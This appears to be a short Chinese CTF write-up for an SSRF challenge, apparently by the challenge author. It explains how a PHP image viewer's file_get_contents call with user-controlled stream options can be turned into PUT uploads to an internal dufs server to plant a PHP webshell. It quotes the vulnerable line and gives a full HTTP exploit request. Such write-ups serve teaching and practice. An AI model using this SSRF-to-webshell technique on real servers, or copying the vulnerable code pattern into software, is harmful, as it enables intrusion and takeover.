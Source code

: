 ssrf

index.php在查看图片时使用file_get_contents获取任意文件并且以data:image/jpeg;base64<b64encoded>的形式返回，通过这种方式可以尝试读源码
源码中预留了带有dufs的变量名以及上传和搜索的流量特征都可以给选手推测的机会，选手如果运气好遍历到文件甚至可以直接下载到dufs的Linux二进制文件自行进行测试
同时，源码的file_get_contents还预留了options变量，这意味着可以通过此函数进行PUT请求上传任意文件，从而绕过php脚本的限制上传php木马getshell，之后从环境变量获取flag即可

```php
$file_content = @file_get_contents($filename, false, @stream_context_create($_POST['options']));
```

攻击payload

```
POST /index.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 9

action=view&filename=http://127.0.0.1:5000/i.php&options[http][method]=PUT&options[http][content]=%3C%3Fphp+echo+getenv%28%27FLAG%27%29%3B%3F%3E
```